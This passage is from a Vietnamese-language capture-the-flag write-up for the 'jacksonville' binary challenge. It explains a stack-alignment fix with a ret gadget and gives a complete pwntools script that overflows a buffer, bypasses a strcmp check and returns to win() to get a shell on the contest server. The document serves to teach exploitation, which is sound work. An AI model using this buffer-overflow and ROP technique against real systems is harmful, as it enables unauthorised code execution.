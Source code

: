     - Một payload đơn giản nhảy thẳng đến hàm `win()` hoạt động trên một số môi trường local nhưng lại gây crash (dẫn đến `EOFError`) trên server của cuộc thi.
    - Nguyên nhân là do các phiên bản `libc` hiện đại yêu cầu stack phải được căn chỉnh 16-byte trước khi gọi các hàm như `system()`. Lệnh `call` từ `main` đến `vuln` đã làm stack bị lệch đi 8 bytes.
    - **Yêu cầu 2:** Chúng ta cần sửa lại việc căn chỉnh stack trước khi nhảy đến hàm `win`.
5. **Xây dựng ROP Chain:**
    - Để sửa lỗi căn chỉnh, chúng ta sẽ thêm một gadget `ret` vào ROP chain. Lệnh `ret` đầu tiên (ở cuối hàm `vuln`) sẽ nhảy đến gadget `ret` này.
    - Việc thực thi gadget `ret` sẽ pop 8 bytes khỏi stack, làm cho con trỏ stack (`RSP`) quay trở lại một ranh giới 16-byte.
    - Lệnh `ret` thứ hai (chính là gadget) sẽ nhảy đến địa chỉ của hàm `win()`.

---

## Kịch bản khai thác (Exploit)

Script `pwntools` sau đây sẽ xây dựng và gửi đi payload hoàn chỉnh để giải quyết thử thách.

```python
# solve.py
from pwn import *

# Cài đặt môi trường
elf = ELF("./jacksonville")
context.binary = elf

# Kết nối tới server
p = remote("chal.sunshinectf.games", 25602)

# Chờ đợi prompt ban đầu của chương trình
p.recvuntil(b"> ")

# Tìm một gadget "ret" đơn giản để căn chỉnh stack.
# Có thể tìm bằng ROPgadget hoặc dùng một địa chỉ hợp lệ như đầu hàm _init
ret_gadget = 0x40101a

# Xây dựng payload
# 1. Prefix để bypass strcmp (6 byte đệm + "Jaguars" + null byte)
prefix = b"A" * 6 + b"Jaguars\\0"

# 2. Padding để điền đầy đến địa chỉ trả về
# Offset tổng là 104.
padding = b"B" * (104 - len(prefix))

# 3. ROP Chain
# - Gadget "ret" để sửa lỗi căn chỉnh stack
# - Địa chỉ của hàm win
rop_chain = p64(ret_gadget) + p64(elf.symbols["win"])

# Ghép tất cả lại
payload = prefix + padding + rop_chain

# Gửi payload
p.sendline(payload)

# Chuyển sang chế độ tương tác để điều khiển shell
p.interactive()

```

